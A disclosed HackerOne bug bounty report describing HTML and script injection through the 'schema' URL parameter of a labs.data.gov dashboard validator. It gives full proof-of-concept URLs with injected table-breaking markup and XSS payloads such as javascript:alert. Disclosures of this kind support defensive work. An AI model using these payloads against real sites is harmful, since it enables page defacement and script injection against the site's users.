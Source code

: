 # Content injection via URL parameter.

## Report Details
- **Report ID**: 263913
- **URL**: https://hackerone.com/reports/263913
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2017-08-28T10:48:54.517Z
- **Disclosed**: 2020-02-08T07:45:19.519Z

## Reporter
- **Username**: johnh4x0r
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gsa_bbp

## Vulnerability Information
Hello,

The following URL is vulnerable to content & code injection.

https://labs.data.gov/dashboard/validate

https://labs.data.gov/dashboard/validate?schema=federal-v1.1&output=browser&datajson_url=https%3A%2F%2Flabs.data.gov%2Fdashboard%2Ftest%2Cjson&qa=true&as_sfid=AAAAAAX9aAk4zbcmVPVmNqK8IsF4fTqp5MWg0dD5EUW_RUCLRfQy-tInawCjs5MguiO4r0s2DOxw7A6eFsyDLtE7VwB-dOBSvwUCyh8ZDcmwEgXTbAhd65RVagmnyBes3N9JTgo%3D&as_fid=6351beaa742e567d719465625c857fb4af3647b5


The schema parameter in the above URL is vulnerable to injection.

Example...

https://labs.data.gov/dashboard/validate?schema=test%3C/td%3E%3C/table%3E%3Ctable%3E%3Cbr%3E%3CIMG/SRC=%220%22%3E%3Ca+href=%22test%22%3EThis%20is%20a%20test%20code%20injected%3C/a%3E%3Ctr%20height=1000%3E&output=browser&datajson_url=https%3A%2F%2Flabs.data.gov%2Fdashboard%2Fvalidate&qa=true&as_sfid=AAAAAAUed3Nkn6QD8xXFoaXpXFo15KAcBtnXLB2sMi3sDQg56-En7xzPW-DkRPCwWwWWr72IB5MBYVnBw5VdRcZ3mf6t0KCdTCE1Ubo8_xdNn8bT62h84O-zg4KswH-QCyULoN0%3D&as_fid=18ac90d3c3c43ee6b696ad0376dcceda949b51be


Also injecting something like <IMG/SRC="JaVaScrip<script>T:alert(%27XSS%27)"> revels PHP source error msg....

https://labs.data.gov/dashboard/validate?schema=test%3C/td%3E%3C/table%3E%3Ctable%3E%3Cbr%3E%3CIMG/SRC=%22JaVaScrip%3Cscript%3ET:alert(%27XSS%27)%22%3E%3Ca+href=%22test%22%3Etest%3C/a%3E%3CIMG/SRC=%22javascript:alert(1);%22%3E%3Ctr%20height=1000%3E&output=browser&datajson_url=https%3A%2F%2Flabs.data.gov%2Fdashboard%2Fvalidate&qa=true&as_sfid=AAAAAAUed3Nkn6QD8xXFoaXpXFo15KAcBtnXLB2sMi3sDQg56-En7xzPW-DkRPCwWwWWr72IB5MBYVnBw5VdRcZ3mf6t0KCdTCE1Ubo8_xdNn8bT62h84O-zg4KswH-QCyULoN0%3D&as_fid=18ac90d3c3c43ee6b696ad0376dcceda949b51be


The schema parameter in the URL should be further sanitised from characters like " < > /.







## Attachments
No attachments
